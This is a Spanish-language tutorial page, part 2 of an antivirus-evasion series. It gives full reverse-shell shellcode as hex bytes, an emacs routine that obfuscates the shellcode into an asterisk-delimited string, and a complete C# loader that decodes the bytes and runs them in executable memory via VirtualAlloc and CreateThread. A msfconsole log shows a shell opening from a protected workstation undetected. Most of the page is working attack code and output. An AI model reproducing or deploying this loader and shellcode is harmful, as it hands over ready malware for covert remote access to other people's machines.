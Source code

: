 ```yaml
---
icon: virus-covid-slash
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Evasión de antivirus con C - Parte 2

Siguiendo el codigo en `C#` de la parte anterior igualmente ese codigo lo puede seguir detectando algunos antivirus, ya que el `payload` que hemos utilizado lo hemos pegado directamente sin realizar ninguna modificacion al mismo, por eso el poder ser detectados, por lo que vamos a realizar alguna modificacion de la siguiente forma:

En este caso vamos a utilizar el editor de archivos llamado `emacs` para que todo esto vaya de forma mas automatizada:

```shell
emacs
```

Una vez dentro abriremos una nueva hoja y pegaremos el siguiente `payload` del codigo anterior:

```
0xfc,0xe8,0x8f,0x00,0x00,0x00,
0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,
0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,
0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,
0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,
0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,
0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,0x85,0xc9,0x74,
0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,
0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,
0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,
0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,
0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,
0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,
0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,
0x6a,0x0a,0x68,0xc0,0xa8,0x05,0xcd,0x68,0x02,0x00,0x1e,0x61,
0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,
0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,
0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,
0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,
0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,
0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,
0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,
0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,
0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,
0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,
0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,
0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5
```

Seleccionamos todo el `payload` y haremos `Alt+M` -> pondremos `replace-string` -> pondremos `0x` -> `ENTER` -> pondremos `*` -> `ENTER`.

Y con esto habremos reemplazado todos los `0x` por un `*`:

```
*fc,*e8,*8f,*00,*00,*00,
*60,*31,*d2,*89,*e5,*64,*8b,*52,*30,*8b,*52,*0c,
*8b,*52,*14,*0f,*b7,*4a,*26,*31,*ff,*8b,*72,*28,
*31,*c0,*ac,*3c,*61,*7c,*02,*2c,*20,*c1,*cf,*0d,
*01,*c7,*49,*75,*ef,*52,*57,*8b,*52,*10,*8b,*42,
*3c,*01,*d0,*8b,*40,*78,*85,*c0,*74,*4c,*01,*d0,
*8b,*48,*18,*8b,*58,*20,*50,*01,*d3,*85,*c9,*74,
*3c,*49,*31,*ff,*8b,*34,*8b,*01,*d6,*31,*c0,*ac,
*c1,*cf,*0d,*01,*c7,*38,*e0,*75,*f4,*03,*7d,*f8,
*3b,*7d,*24,*75,*e0,*58,*8b,*58,*24,*01,*d3,*66,
*8b,*0c,*4b,*8b,*58,*1c,*01,*d3,*8b,*04,*8b,*01,
*d0,*89,*44,*24,*24,*5b,*5b,*61,*59,*5a,*51,*ff,
*e0,*58,*5f,*5a,*8b,*12,*e9,*80,*ff,*ff,*ff,*5d,
*68,*33,*32,*00,*00,*68,*77,*73,*32,*5f,*54,*68,
*4c,*77,*26,*07,*89,*e8,*ff,*d0,*b8,*90,*01,*00,
*00,*29,*c4,*54,*50,*68,*29,*80,*6b,*00,*ff,*d5,
*6a,*0a,*68,*c0,*a8,*05,*cd,*68,*02,*00,*1e,*61,
*89,*e6,*50,*50,*50,*50,*40,*50,*40,*50,*68,*ea,
*0f,*df,*e0,*ff,*d5,*97,*6a,*10,*56,*57,*68,*99,
*a5,*74,*61,*ff,*d5,*85,*c0,*74,*0a,*ff,*4e,*08,
*75,*ec,*e8,*67,*00,*00,*00,*6a,*00,*6a,*04,*56,
*57,*68,*02,*d9,*c8,*5f,*ff,*d5,*83,*f8,*00,*7e,
*36,*8b,*36,*6a,*40,*68,*00,*10,*00,*00,*56,*6a,
*00,*68,*58,*a4,*53,*e5,*ff,*d5,*93,*53,*6a,*00,
*56,*53,*57,*68,*02,*d9,*c8,*5f,*ff,*d5,*83,*f8,
*00,*7d,*28,*58,*68,*00,*40,*00,*00,*6a,*00,*50,
*68,*0b,*2f,*0f,*30,*ff,*d5,*57,*68,*75,*6e,*4d,
*61,*ff,*d5,*5e,*5e,*ff,*0c,*24,*0f,*85,*70,*ff,
*ff,*ff,*e9,*9b,*ff,*ff,*ff,*01,*c3,*29,*c6,*75,
*c1,*c3,*bb,*f0,*b5,*a2,*56,*6a,*00,*53,*ff,*d5
```

Ahora vamos a quitar las `,` haciendo lo mismo que antes, pero en esta parte donde nos da a elegir 2 opciones pondremos primero donde habiamos puesto el `0x` pondremos una `,` y en la segunda parte donde pusimos el `*` pondremos nada para dejarlo vacio y que se eliminen, quedando algo asi:

```
*fc*e8*8f*00*00*00
*60*31*d2*89*e5*64*8b*52*30*8b*52*0c
*8b*52*14*0f*b7*4a*26*31*ff*8b*72*28
*31*c0*ac*3c*61*7c*02*2c*20*c1*cf*0d
*01*c7*49*75*ef*52*57*8b*52*10*8b*42
*3c*01*d0*8b*40*78*85*c0*74*4c*01*d0
*8b*48*18*8b*58*20*50*01*d3*85*c9*74
*3c*49*31*ff*8b*34*8b*01*d6*31*c0*ac
*c1*cf*0d*01*c7*38*e0*75*f4*03*7d*f8
*3b*7d*24*75*e0*58*8b*58*24*01*d3*66
*8b*0c*4b*8b*58*1c*01*d3*8b*04*8b*01
*d0*89*44*24*24*5b*5b*61*59*5a*51*ff
*e0*58*5f*5a*8b*12*e9*80*ff*ff*ff*5d
*68*33*32*00*00*68*77*73*32*5f*54*68
*4c*77*26*07*89*e8*ff*d0*b8*90*01*00
*00*29*c4*54*50*68*29*80*6b*00*ff*d5
*6a*0a*68*c0*a8*05*cd*68*02*00*1e*61
*89*e6*50*50*50*50*40*50*40*50*68*ea
*0f*df*e0*ff*d5*97*6a*10*56*57*68*99
*a5*74*61*ff*d5*85*c0*74*0a*ff*4e*08
*75*ec*e8*67*00*00*00*6a*00*6a*04*56
*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7e
*36*8b*36*6a*40*68*00*10*00*00*56*6a
*00*68*58*a4*53*e5*ff*d5*93*53*6a*00
*56*53*57*68*02*d9*c8*5f*ff*d5*83*f8
*00*7d*28*58*68*00*40*00*00*6a*00*50
*68*0b*2f*0f*30*ff*d5*57*68*75*6e*4d
*61*ff*d5*5e*5e*ff*0c*24*0f*85*70*ff
*ff*ff*e9*9b*ff*ff*ff*01*c3*29*c6*75
*c1*c3*bb*f0*b5*a2*56*6a*00*53*ff*d5
```

Ahora solo tendremos que quitar todos los saltos de linea para que quede todo en una unica linea y le pondremos `"` al principio y final de la siguiente forma:

```
"fc*e8*8f*00*00*00*60*31*d2*89*e5*64*8b*52*30*8b*52*0c*8b*52*14*0f*b7*4a*26*31*ff*8b*72*28*31*c0*ac*3c*61*7c*02*2c*20*c1*cf*0d*01*c7*49*75*ef*52*57*8b*52*10*8b*42*3c*01*d0*8b*40*78*85*c0*74*4c*01*d0*8b*48*18*8b*58*20*50*01*d3*85*c9*74*3c*49*31*ff*8b*34*8b*01*d6*31*c0*ac*c1*cf*0d*01*c7*38*e0*75*f4*03*7d*f8*3b*7d*24*75*e0*58*8b*58*24*01*d3*66*8b*0c*4b*8b*58*1c*01*d3*8b*04*8b*01*d0*89*44*24*24*5b*5b*61*59*5a*51*ff*e0*58*5f*5a*8b*12*e9*80*ff*ff*ff*5d*68*33*32*00*00*68*77*73*32*5f*54*68*4c*77*26*07*89*e8*ff*d0*b8*90*01*00*00*29*c4*54*50*68*29*80*6b*00*ff*d5*6a*0a*68*c0*a8*05*cd*68*02*00*1e*61*89*e6*50*50*50*50*40*50*40*50*68*ea*0f*df*e0*ff*d5*97*6a*10*56*57*68*99*a5*74*61*ff*d5*85*c0*74*0a*ff*4e*08*75*ec*e8*67*00*00*00*6a*00*6a*04*56*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7e*36*8b*36*6a*40*68*00*10*00*00*56*6a*00*68*58*a4*53*e5*ff*d5*93*53*6a*00*56*53*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7d*28*58*68*00*40*00*00*6a*00*50*68*0b*2f*0f*30*ff*d5*57*68*75*6e*4d*61*ff*d5*5e*5e*ff*0c*24*0f*85*70*ff*ff*ff*e9*9b*ff*ff*ff*01*c3*29*c6*75*c1*c3*bb*f0*b5*a2*56*6a*00*53*ff*d5"
```

Ahora el codigo modificado quedaria de la siguiente forma:

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;

namespace WIn32

{
    class Program
    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]

        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddess, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]

        static extern UInt32 WaitForSingleObject(IntPtr hHandler, UInt32 dwMilliseconds);

        static void Main (string[] args)
        {

            string payload = "fc*e8*8f*00*00*00*60*31*d2*89*e5*64*8b*52*30*8b*52*0c*8b*52*14*0f*b7*4a*26*31*ff*8b*72*28*31*c0*ac*3c*61*7c*02*2c*20*c1*cf*0d*01*c7*49*75*ef*52*57*8b*52*10*8b*42*3c*01*d0*8b*40*78*85*c0*74*4c*01*d0*8b*48*18*8b*58*20*50*01*d3*85*c9*74*3c*49*31*ff*8b*34*8b*01*d6*31*c0*ac*c1*cf*0d*01*c7*38*e0*75*f4*03*7d*f8*3b*7d*24*75*e0*58*8b*58*24*01*d3*66*8b*0c*4b*8b*58*1c*01*d3*8b*04*8b*01*d0*89*44*24*24*5b*5b*61*59*5a*51*ff*e0*58*5f*5a*8b*12*e9*80*ff*ff*ff*5d*68*33*32*00*00*68*77*73*32*5f*54*68*4c*77*26*07*89*e8*ff*d0*b8*90*01*00*00*29*c4*54*50*68*29*80*6b*00*ff*d5*6a*0a*68*c0*a8*05*cd*68*02*00*1e*61*89*e6*50*50*50*50*40*50*40*50*68*ea*0f*df*e0*ff*d5*97*6a*10*56*57*68*99*a5*74*61*ff*d5*85*c0*74*0a*ff*4e*08*75*ec*e8*67*00*00*00*6a*00*6a*04*56*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7e*36*8b*36*6a*40*68*00*10*00*00*56*6a*00*68*58*a4*53*e5*ff*d5*93*53*6a*00*56*53*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7d*28*58*68*00*40*00*00*6a*00*50*68*0b*2f*0f*30*ff*d5*57*68*75*6e*4d*61*ff*d5*5e*5e*ff*0c*24*0f*85*70*ff*ff*ff*e9*9b*ff*ff*ff*01*c3*29*c6*75*c1*c3*bb*f0*b5*a2*56*6a*00*53*ff*d5";

            string[] temp_payload = payload.Split('*');

            byte[] payload_final = new byte[temp_payload.Length];

            for (int i = 0; i < temp_payload.Length; i++)
            {
                payload_final[i] = Convert.ToByte(temp_payload[i], 16);
            }

            Console.WriteLine();
            Console.ForegroundColor = ConsoleColor.Gray;
            Console.WriteLine("Iniciando sesion reversa");

            IntPtr funcAdrr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(payload_final, 0, funcAdrr, payload_final.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAdrr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xffffffff);

        }
    }

}
```

Lo que estamos haciendo en esta parte del codigo `string payload = "fc*e8*8f*00*....";` es definir el `payload` que hemos modificado separado por `*`.

Despues en esta otra parte del codigo `string[] temp_payload = payload.Split('*');` lo que estamos haciendo es que cuando encuentre un `*` lo separe/parta para que tengamos una cadenas de `bytes`.

En esta parte `byte[] payload_final = new byte[temp_payload.Length];` simplemente estamos definiendo un `array` para posteriormente poder utilizarlo con el `payload`.

En el `bucle for` lo que estamos haciendo es que va recorriendo cada uno de los `strings` del `payload` que hemos modificado para poder convertir cada uno de los `*` en `bytes`.

La diferencia de todo esto es que la firma que llevaba antes de `msfvenom` era muy reconocible, pero ahora al crear nuestro propio `payload` es una firma propia, por lo que sera muy complicado de que un antivirus lo detecte actualmente.

Ahora vamos a volverlo a compilar y nos lo vamos a pasar a la maquina `WS02` el cual tiene el antivirus activado, cuando nos lo pasemos veremos que ni siquiera nos da un aviso de que pueda ser un `malware` por lo que esta funcionando de forma correcta, si nos volvemos a poner a la escucha en `msfconsole` con el `multi/handler` y ejecutamos el binario desde la maquina `WS02` y volvemos a donde tenemos la escucha:

```
[*] Started reverse TCP handler on 192.168.5.205:7777 
[*] Sending stage (240 bytes) to 192.168.5.209
[*] Command shell session 1 opened (192.168.5.205:7777 -> 192.168.5.209:52504) at 2025-02-06 04:07:26 -0500


Shell Banner:
Microsoft Windows [Versi_n 10.0.19045.3803]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Users\empleado2\Desktop>
-----
          

C:\Users\empleado2\Desktop>whoami
whoami
corp\empleado2
```

Veremos que efectivamente nos esta creando una `shell` sin ningun tipo de problema y sin que el antivirus detecte absolutamente nada.
